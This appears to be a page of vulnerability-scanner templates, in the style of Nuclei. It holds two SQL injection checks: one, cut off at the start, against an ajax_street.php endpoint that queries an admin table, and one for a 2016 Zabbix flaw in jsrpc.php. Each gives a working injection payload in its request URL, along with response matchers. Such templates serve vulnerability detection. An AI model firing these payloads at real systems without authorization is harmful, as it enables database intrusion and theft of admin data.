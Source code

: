 ## Requests

- Method - GET

### URL

- {{BaseURL}}/plus/ajax_street.php?act=alphabet&x=11�%27%20union%20select%201,2,3,concat(0x3C2F613E20),5,6,7,md5({{num}}),9%20from%20qs_admin#

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

---

# Zabbix - SQL Injection

## Description

- Zabbix before 2.2.14 and 3.0 before 3.0.4 allows remote attackers to execute arbitrary SQL commands via the toggle_ids array parameter in latest.php and perform SQL injection attacks.
- severity - critical
- tags - cve,cve2016,zabbix,sqli,vulhub

## Requests

- Method - GET

### URL

- {{BaseURL}}/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)::

### Matchers

**Type - word**

- part - body
- words
  1. Error in query [INSERT INTO profiles (profileid, userid
  2. You have an error in your SQL syntax
- condition - and

**Type - status**

- status
  1. 200

---